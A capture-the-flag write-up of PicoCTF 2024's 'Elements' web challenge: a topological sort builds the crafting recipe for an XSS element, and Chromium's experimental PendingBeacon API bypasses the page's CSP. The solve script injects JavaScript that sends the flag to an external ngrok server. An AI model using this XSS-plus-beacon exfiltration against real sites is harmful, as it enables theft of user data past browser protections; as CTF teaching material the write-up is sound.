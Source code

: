 ```yaml
---
title: "PicoCTF 2024 Elements Writeup"
date: 2024-04-09T17:34:41+08:00
description: "Solution for PicoCTF 2024's least solved web challenge: Elements"
---
```


We ranked #10 globally in PicoCTF 2024!

## Elements

This problem is essentially an XSS + CSP bypass.
The XSS part was easy: we need to construct a dependency tree to build the `XSS` element.
For this, I used topological sorting.

```python
import graphlib
recipies = [["Ash","Fire","Charcoal"],["Steam Engine","Water","Vapor"],["Brick Oven","Heat Engine","Oven"],["Steam Engine","Swamp","Sauna"],["Magma","Mud","Obsidian"],["Earth","Mud","Clay"],["Volcano","Water","Volcanic Rock"],["Brick","Fog","Cloud"],["Obsidian","Rain","Black Rain"],["Colorful Pattern","Fire","Rainbow Fire"],["Cloud","Obsidian","Storm"],["Ash","Obsidian","Volcanic Glass"],["Electricity","Haze","Static"],["Fire","Water","Steam"],["Dust","Rainbow","Powder"],["Computer Chip","Steam Engine","Artificial Intelligence"],["Fire","Mud","Brick"],["Hot Spring","Swamp","Sulfur"],["Adobe","Graphic Design","Web Design"],["Colorful Interface","Data","Visualization"],["IoT","Security","Encryption"],["Colorful Pattern","Mosaic","Patterned Design"],["Earth","Steam Engine","Excavator"],["Cloud Computing","Data","Data Mining"],["Earth","Water","Mud"],["Brick","Fire","Brick Oven"],["Colorful Pattern","Obsidian","Art"],["Rain","Steam Engine","Hydropower"],["Colorful Display","Graphic Design","Colorful Interface"],["Fire","Mist","Fog"],["Exploit","Web Design","XSS"],["Computer Chip","Hot Spring","Smart Thermostat"],["Earth","Fire","Magma"],["Air","Earth","Dust"],["Cloud","Rainbow","Rainbow Cloud"],["Dust","Heat Engine","Sand"],["Obsidian","Thunderstorm","Lightning Conductor"],["Cloud","Rain","Thunderstorm"],["Adobe","Cloud","Software"],["Hot Spring","Rainbow","Colorful Steam"],["Dust","Fire","Ash"],["Cement","Swamp","Marsh"],["Hot Tub","Mud","Mud Bath"],["Electricity","Glass","Computer Chip"],["Ceramic","Fire","Earthenware"],["Haze","Swamp","Fog Machine"],["Rain","Rainbow","Colorful Display"],["Brick","Water","Cement"],["Dust","Haze","Sandstorm"],["Ash","Hot Spring","Geothermal Energy"],["Ash Rock","Heat Engine","Mineral"],["Electricity","Software","Program"],["Computer Chip","Fire","Data"],["Colorful Pattern","Swamp","Algae"],["Fog","Water","Rain"],["Rainbow Pool","Reflection","Color Spectrum"],["Artificial Intelligence","Data","Encryption"],["Internet","Smart Thermostat","IoT"],["Cinder","Heat Engine","Ash Rock"],["Brick","Swamp","Mudbrick"],["Computer Chip","Volcano","Data Mining"],["Obsidian","Water","Hot Spring"],["Computer Chip","Thunderstorm","Power Surge"],["Brick","Obsidian","Paving Stone"],["User Input","Visualization","Interactive Design"],["Mist","Mud","Swamp"],["Geolocation","Wall","Map"],["Air","Rock","Internet"],["Computer Chip","Rain","Email"],["Fire","Rainbow","Colorful Flames"],["Hot Spring","Mineral Spring","Healing Water"],["Ceramic","Volcano","Lava Lamp"],["Brick Oven","Wall","Fireplace"],["Glass","Software","Vulnerability"],["Fog","Mud","Sludge"],["Fire","Marsh","S'mores"],["Artificial Intelligence","Data Mining","Machine Learning"],["Ash","Brick","Brick Kiln"],["Fire","Obsidian","Heat Resistant Material"],["Hot Spring","Sludge","Steam Engine"],["Artificial Intelligence","Computer Chip","Smart Device"],["Fire","Steam Engine","Heat Engine"],["Ash","Earth","Cinder"],["Rainbow","Reflection","Refraction"],["Encryption","Software","Cybersecurity"],["Graphic Design","Mosaic","Artwork"],["Colorful Display","Data Mining","Visualization"],["Hot Spring","Water","Mineral Spring"],["Rainbow","Swamp","Reflection"],["Air","Fire","Smoke"],["Program","Smart HVAC System","Smart Thermostat"],["Haze","Obsidian","Blackout"],["Brick","Earth","Wall"],["Heat Engine","Steam Locomotive","Railway Engine"],["Ash","Thunderstorm","Volcanic Lightning"],["Mud","Water","Silt"],["Colorful Pattern","Hot Spring","Rainbow Pool"],["Fire","Sand","Glass"],["Art","Web Design","Graphic Design"],["Internet","Machine Learning","Smart HVAC System"],["Electricity","Power Surge","Overload"],["Colorful Pattern","Computer Chip","Graphic Design"],["Air","Water","Mist"],["Brick Oven","Cement","Concrete"],["Artificial Intelligence","Cloud","Cloud Computing"],["Computer Chip","Earth","Geolocation"],["Color Spectrum","Graphic Design","Colorful Interface"],["Internet","Program","Web Design"],["Computer Chip","Overload","Circuit Failure"],["Data Mining","Geolocation","Location Tracking"],["Heat Engine","Smart Thermostat","Smart HVAC System"],["Brick","Mud","Adobe"],["Cloud","Dust","Rainbow"],["Hot Spring","Obsidian","Hot Tub"],["Steam Engine","Volcano","Geothermal Power Plant"],["Earth","Fog","Haze"],["Brick","Steam Engine","Steam Locomotive"],["Brick","Colorful Pattern","Mosaic"],["Hot Spring","Steam Engine","Electricity"],["Ash","Volcano","Volcanic Ash"],["Electricity","Water","Hydroelectric Power"],["Brick","Rainbow","Colorful Pattern"],["Silt","Volcano","Lava"],["Computer Chip","Software","Program"],["Hot Spring","Thunderstorm","Lightning"],["Ash","Clay","Ceramic"],["Cybersecurity","Vulnerability","Exploit"],["Ash","Heat Engine","Ash Residue"],["Internet","Smart Device","Cloud Computing"],["Magma","Mist","Rock"],["Interactive Design","Program","Smart Device"],["Computer Chip","Electricity","Software"],["Colorful Pattern","Graphic Design","Design Template"],["Fire","Magma","Volcano"],["Earth","Obsidian","Computer Chip"],["Geolocation","Location Tracking","Real-Time Positioning"]]

orig = ['Fire', 'Water', 'Earth', 'Air']

dependencies = {}
for r in recipies:
    dependencies[r[2]] = [r[0], r[1]]

dep_set = set()
dep_graph = {}

def trace_dependency(dep, level = 0):
    if dep in dep_set:
        return
    if dep in dependencies:
        dep_graph[dep] = set(dependencies[dep])
        for d in dependencies[dep]:
            if d in orig:
                continue
            trace_dependency(d, level+1)

trace_dependency("XSS")

ts = graphlib.TopologicalSorter(dep_graph)
res_order = list(ts.static_order())

res_lst = [dependencies[k] for k in res_order if k in dependencies]
print(res_lst)
# [['Earth', 'Fire'], ['Earth', 'Water'], ['Air', 'Water'], ['Air', 'Earth'], ['Magma', 'Mud'], ['Fire', 'Mist'], ['Magma', 'Mist'], ['Earth', 'Obsidian'], ['Obsidian', 'Water'], ['Fog', 'Mud'], ['Air', 'Rock'], ['Computer Chip', 'Fire'], ['Hot Spring', 'Sludge'], ['Computer Chip', 'Steam Engine'], ['Hot Spring', 'Steam Engine'], ['Fire', 'Steam Engine'], ['Artificial Intelligence', 'Data'], ['Computer Chip', 'Electricity'], ['Dust', 'Heat Engine'], ['Encryption', 'Software'], ['Computer Chip', 'Software'], ['Fire', 'Sand'], ['Internet', 'Program'], ['Glass', 'Software'], ['Cybersecurity', 'Vulnerability'], ['Exploit', 'Web Design']]
```

The CSP part is tricky.
In the browser, all HTTP based apis (`fetch`, `XMLHttpRequest`, etc) adheres to the CSP policy that allows nothing.
Additionally, chromium was modified by the organizers to not expose WebRTC, which is a common way to bypass CSP.
DNS pre-fetching is also blocked due to `network_prediction_options: 2`.

However, note that the flag `--enable-experimental-web-platform-features` was turned on.
This enables a myriad of experimental features that are not yet standardized or documented.
To find a list of experimental features enabled, I looked at all the `status: "experimental"` [this](https://chromium.googlesource.com/chromium/src/+/891de733b481fff05ae0d07658b8e3bd4b622a6e/third_party/blink/renderer/platform/runtime_enabled_features.json5) file.
I found a suspicious-sounding feature [PendingBeacon](https://chromestatus.com/feature/5690553554436096).
Turns out that this does not respect CSP and can be used to send arbitrary requests.
After finding this, we can use any external server to exfiltrate the flag.

Note: PendingBeacon is now deprecated, and was replaced by the [fetchLater](https://chromestatus.com/feature/4654499737632768) API, alas.

Solve Script:

```python
import requests
import json
import base64

js_code = """
let pb = new PendingGetBeacon(`https://e6f8-2400-8901-00-f03c-94ff-fe8e-5147.ngrok-free.app/${state.flag}`);
pb.sendNow();
"""

API_PATH = "http://rhea.picoctf.net:58802"
payload = {
    "xss": js_code,
    "recipe": [['Earth', 'Fire'], ['Earth', 'Water'], ['Air', 'Water'], ['Air', 'Earth'], ['Magma', 'Mud'], ['Fire', 'Mist'], ['Magma', 'Mist'], ['Earth', 'Obsidian'], ['Obsidian', 'Water'], ['Fog', 'Mud'], ['Air', 'Rock'], ['Computer Chip', 'Fire'], ['Hot Spring', 'Sludge'], ['Computer Chip', 'Steam Engine'], ['Hot Spring', 'Steam Engine'], ['Fire', 'Steam Engine'], ['Artificial Intelligence', 'Data'], ['Computer Chip', 'Electricity'], ['Dust', 'Heat Engine'], ['Encryption', 'Software'], ['Computer Chip', 'Software'], ['Fire', 'Sand'], ['Internet', 'Program'], ['Glass', 'Software'], ['Cybersecurity', 'Vulnerability'], ['Exploit', 'Web Design']]
}

print(base64.b64encode(json.dumps(payload).encode()).decode())

r = requests.post(f"{API_PATH}/remoteCraft", params={'recipe': json.dumps(payload)})

print(r.text)
```

